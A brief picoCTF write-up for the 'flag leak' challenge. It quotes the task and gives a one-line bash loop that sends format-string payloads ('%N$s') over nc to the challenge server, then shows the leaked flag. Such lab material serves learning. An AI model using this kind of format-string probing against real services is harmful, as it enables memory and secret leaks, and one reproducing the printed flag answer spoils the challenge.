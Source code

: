 ## Objetivo
Story telling class 1/2 I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using: `nc saturn.picoctf.net 55619`

## Solución
```bash
┌──(kali㉿kali)-[~/picoCTFretos/Binexp/flagleak]
└─$ for i in {0..1500}; do echo "%$i\$s" | nc saturn.picoctf.net 53744 | grep -Ei "L34k|pico" ; done
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
FLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_
```
